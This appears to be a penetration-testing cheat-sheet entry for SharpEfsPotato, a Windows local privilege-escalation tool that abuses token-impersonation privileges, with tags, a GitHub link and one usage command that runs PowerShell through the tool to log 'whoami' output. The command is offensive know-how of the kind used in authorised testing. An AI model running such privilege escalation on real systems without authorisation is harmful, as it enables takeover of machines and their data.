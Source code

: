 # SharpEfsPotato

% SeAssignPrimaryToken, SeImpersonate, token
#plateform/windows #target/local #cat/PRIVESC/TOKEN


## test
https://github.com/bugch3ck/SharpEfsPotato
```cmd
.\SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
```


